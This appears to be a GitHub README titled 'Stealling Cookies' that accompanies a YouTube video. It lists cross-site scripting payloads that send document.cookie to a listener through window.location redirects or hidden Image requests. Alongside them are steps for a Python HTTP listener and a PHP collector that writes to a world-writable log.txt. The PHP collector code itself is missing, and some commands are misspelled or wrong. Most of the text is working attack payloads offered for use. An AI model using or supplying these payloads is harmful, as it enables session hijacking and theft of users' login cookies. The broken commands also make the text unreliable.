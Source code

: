 # Stealling Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1 - Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2 - write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1 - Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2 - Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1 - go to html File:

[~] YasserREED> cd  /var/www/html

2 - Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

3 - Make log.txt file:

YasserRED> sudo touch log.txt

4 - Give all Privileges:

YasserREED> sudo chmod 777 log.txt

# Send The Cookie to log.txt by get.php using window.location() function:

1 - Write The Payload:

<script> window.location='https://127.0.0.1/get.php?cookie='+document.cookie </script> 

2 - Paste to input filed.

3 - Check log.txt. //if not showen you can refresh the page 🔄

# Take the cookie Silnce by get.php and send it to log.txt:

1 - Write Payload:

<script>
    var o = new Image();
    o.src="http://127.0.0.1/get.php?cookie="+document.cookie
</script>

2 - Paste in input filed.

3 - Check log.txt //if not showen you can refresh the page 🔄

